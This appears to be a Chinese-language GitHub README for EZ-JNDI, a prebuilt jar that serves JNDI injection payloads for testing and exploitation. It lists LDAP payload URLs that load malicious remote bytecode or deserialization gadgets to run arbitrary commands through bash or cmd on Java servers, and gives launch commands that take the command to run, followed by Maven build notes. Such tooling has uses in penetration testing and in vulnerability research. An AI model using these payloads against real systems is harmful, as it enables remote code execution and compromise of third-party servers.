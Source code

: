 # EZ-JNDI
一键启动JNDI测试/利用环境，目录中的 `ezjndi1.0.jar` 是已经编译好的 jar 包

LDAP Payload：
```text
ldap://{IP}:{Port}/Sim --> 利用远程CodeBase加载恶意字节码执行命令，使用 Runtime.getRuntime().exec("{command}") 直接执行命令，Windows和Linux环境通用，执行复杂命令请将命令base64编码或使用下面的payload
ldap://{IP}:{Port}/Foo --> 利用远程CodeBase加载恶意字节码执行命令，其方式为 "bash -c {command}"（Linux）或 "cmd /c {command}"（Windows），恶意字节码会自己判断系统类型并执行对应命令
ldap://{IP}:{Port}/Tom --> 使用Tomcat本地ObjectFactory执行命令，目前只支持Linux环境
ldap://{IP}:{Port}/RS/{gadget_name} --> LDAP服务直接返回序列化数据，并使用指定Gadget执行命令，目前只支持Linux环境

可用Gadget：cck1 ｜ cck3 | todo...
```


LDAP默认端口1099，HTTP默认端口8080，可以使用命令行参数配置端口：
```text
java -jar ezjndi1.0.jar --help
java -jar ezjndi1.0.jar -lp={port1} -hp={port2} -c="{command}"
```

使用截图：

![img.png](img/img.png)

![img.png](img/img2.png)

![img.png](img/img3.png)

TODO:
- 支持动态执行命令，如`ldap://{IP}:{Port}/Foo/{command}`
- 增加gadget
---
️备注：由于项目依赖使用了jdk自带的`rt.jar`，其默认不在JVM的 classpath 中，所以如果想修改源代码编译自己的版本，在编译前请修改`pom.xml`，将`<bootclasspath>`标签的值改为自己的`JAVA_HOMOE`：
```xml
<plugin>
    <groupId>org.apache.maven.plugins</groupId>
    <artifactId>maven-compiler-plugin</artifactId>
    <version>3.8.1</version>
    <configuration>
        <compilerArguments>
            <verbose />
            <bootclasspath>${java.home}/lib/rt.jar${path.separator}${java.home}/lib/jce.jar${path.separator}${java.home}/lib/jsse.jar</bootclasspath>
        </compilerArguments>
    </configuration>
</plugin>
```
另外，编译的时候请跳过测单元测试：
```text
maven clean package -Dmaven.skip.test=true
```